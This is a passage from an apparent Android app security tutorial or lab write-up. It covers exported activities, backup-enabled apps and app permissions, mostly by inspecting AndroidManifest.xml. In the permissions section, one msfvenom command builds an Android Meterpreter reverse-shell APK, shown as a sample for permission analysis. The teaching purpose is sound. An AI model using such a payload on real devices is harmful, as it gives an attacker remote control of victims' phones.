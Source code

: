 <p><strong>Solution</strong>: Use a cryptography asymmetric.</p>

<br>

<h3>Exported Preference Activities</h3>
<p>As we know, Android's activity component is application screen(s) and the action(s) that applied on that screen(s) when we use the application. When as activity is found to be shared with other apps on the device therefore leaving it accessible to any other application on the device.<br>

Okay, exploit this in dynamic analysis... How identify the activity is exported?<br>

With your favorite editor of text. Gedit/Vim/subl, etc… open the AndroidManifest.xml or use cat and grep.</p>

```bash
cat AndroidManifest.xml | grep "activity" --color
```

<h3>Apps which enable backups</h3>
<p>This is considered a security issue because people could backup your app via ADB and then get private data of your app into their PC.<br>

- Shared preference.<br>
- directory returned by getFilesDir().<br>
- getDataBase(path) also includes files created by SQLiteOpenHelper.<br>
- files in directories created with getDir(Sring, int).<br>
- files on external storage returned by getExternalFilesDir (String type).</p>

<p>How identify this?<br>

With your favorite editor of text. Gedit/Vim/subl, etc… open the AndroidManifest.xml or use cat and grep.</p>

<p>Real scenario? you use your mind for this exercice :3.<br>

Solution: android:allowBackup="false"<br>

Example in dynamic analysis, byee!</p>

<h3>App Permissions</h3>
<p>System permissions are divided into two groups: “normal” and “dangerous.” Normal permission groups are allowed by default, because they don’t pose a risk to your privacy. (e.g., Android allows apps to access the Internet without your permission.) Dangerous permission groups, however, can give apps access to things like your calling history, private messages, location, camera, microphone, and more. Therefore, Android will always ask you to approve dangerous permissions.<br>

In earlier versions of Android, accepting potentially dangerous permission groups was an all-or-nothing affair. You either allowed all permissions an app needed to function — before installation — or you declined them all, which meant you couldn’t install the app.<br>

I going to analyze the permissions of an apk app generated by metasploit.</p>

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 R > /root/tryhackme.apk
```

<p>Okay, HOW?<br>

With your favorite editor of text. Gedit/Vim/subl, etc… open the AndroidManifest.xml or use cat and grep.</p>

